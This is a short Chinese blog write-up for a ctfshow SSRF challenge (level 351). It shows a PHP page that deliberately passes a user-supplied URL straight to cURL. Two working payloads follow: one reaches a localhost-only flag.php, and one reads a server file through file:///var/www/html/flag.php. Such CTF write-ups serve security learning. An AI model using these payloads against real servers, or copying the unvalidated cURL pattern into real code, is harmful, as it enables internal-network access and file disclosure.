 ```yaml
---
title: ctfshow-ssrf
date: 2021-09-3 15:53:33
author: Na0H
headimg: /img/atimg/ssrf.png
tags:	
- ctfshow
categories:
- ctfshow
excerpt: ctfshow ssrf
description:  ctfshow ssrf


---
```




ssrf开始啦

[SSRF漏洞的利用与攻击内网应用实战 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/7405)


## 351

> ```php
> <?php
> error_reporting(0);
> highlight_file(__FILE__);
> $url=$_POST['url'];
> $ch=curl_init($url);	# 初始化 cURL 会话
> # curl_setopt — 设置 cURL 传输选项
> curl_setopt($ch, CURLOPT_HEADER, 0);
> # 启用时会将头文件的信息作为数据流输出。	
> curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
> # 启用时将curl_exec()获取的信息以字符串返回，而不是直接输出。
> $result=curl_exec($ch);	# 执行 cURL 会话
> curl_close($ch);	# 关闭 cURL 会话
> echo ($result);
> ?>
> ```
>
> [PHP: cURL 函数 - Manual](https://www.php.net/manual/zh/ref.curl.php)

存在flag.php,访问显示：非本地用户禁止访问
post传值即可：

```
url=127.0.0.1/flag.php
```

后来看和其他师傅交流发现还有一种解法，利用file伪协议读取本地文件：

```
url=file:///var/www/html/flag.php
```
